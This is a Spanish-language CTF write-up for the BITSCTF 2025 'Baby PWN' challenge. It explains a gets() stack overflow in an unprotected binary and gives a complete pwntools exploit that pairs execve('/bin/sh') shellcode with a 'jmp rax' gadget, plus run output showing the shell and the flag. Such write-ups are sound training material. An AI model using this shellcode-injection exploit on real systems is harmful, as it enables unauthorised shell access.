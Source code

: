 ```yaml
---
layout: post
title: Baby PWN  BITSCTF2025
comments: true
categories: [pwn, Writeups, BITSCTF2025]
---
```


Más vale tarde que nunca, así que aquí tenéis este writeup de la competición de este finde pasado. En este caso se trata de un ejercicio tipo *re2shellcode* bastante sencillito.

<br>
![Image]({{ site.baseurl }}/images/posts/BITSCTF.png){:width="150px"}
<br>

# Overview

El enunciado nos dice lo siguiente:

    I hope you are having a nice day.

Y se nos adjunta un binario `main`.

# Reconocimiento

Lo primero es analizar el binario:

```bash
❯ file main
main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e2d574448024e277d4b9a662d470bef9bbab8b3d,
for GNU/Linux 3.2.0, not stripped

❯ checksec --file=main
[*] '/home/kali/Downloads/baby_pwn/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Vemos que es de 64-bits y tenemos todas las protecciones desactivadas. Si descompilamos tendríamos un código como el siguiente:

```c
#include <stdio.h>

void vuln() {
    char buffer[112]; // 0x70 bytes de espacio reservado en la pila
    gets(buffer);     // Buffer overflow
}

int main() {
    vuln();
    return 0;
}

```

Dado que no hay protecciones y tenemos tanto margen para explotar el *buffer overlow*, podemos tratar de ejecutar un *shellcode*. Para ello necesitamos un gadget que llame al shellcode:

```bash
❯ ropper -f main
[...]
0x00000000004010ac: jmp rax; 
```

La idea será introducir un payload con la siguiente estructura:

```
NOPs | shellcode | jmp rax
```

De forma que al saltar al registro, con algo de suerte tendrá dentro los NOPs, que se ejecutarán hasta llegar al shellcode.

# Explotación

Con la estrategia en mente, utilizaremos *python3* y *pwntools* para hacer un script:

```python
#!/bin/python3

from pwn import *

binary = './main'  # Nombre del binario
elf = ELF(binary)

# p = remote('direccion.ip', puerto)
p = process(binary)

#0x00000000004010ac: jmp rax;
jmp_addr = 0x4010ac

shellcode = asm('''
                xor rax, rax
                xor rbx, rbx

                mov rbx, 0x68732f6e69622f
                push rbx

                mov rdi, rsp
                xor rsi, rsi
                xor rdx, rdx

                mov rax, 0x3b
                syscall
                ''',arch='amd64')

offset = 120
padding = b'\x90' * (offset-len(shellcode))

payload = padding + shellcode + p64(jmp_addr)

print(payload)

print("[+] Enviando exploit...")

p.sendline(payload)

p.interactive()
```

Si ejecutamos el solver obtenemos lo siguiente:

```bash
❯ ./solver.py
[*] '/home/kali/Downloads/baby_pwn/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to chals.bitskrieg.in on port 6001: Done
b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90H1\xc0H1\xdbH\xbb/bin/sh\x00SH\x89\xe7H1\xf6H1\xd2H\xc7\xc0;\x00\x00\x00\x0f\x05\xac\x10@\x00\x00\x00\x00\x00'
[+] Enviando exploit...
[*] Switching to interactive mode
$ ls
flag.txt
main
main.c
run
$ cat flag.txt
BITSCTF{w3lc0m3_70_7h3_w0rld_0f_b1n4ry_3xpl01t4t10n_ec5d9205}
```

Este es un reto sencillo, pero que es muy común en competiciones, así que espero que te haya quedado claro. Nos vemos en el siguiente writeup!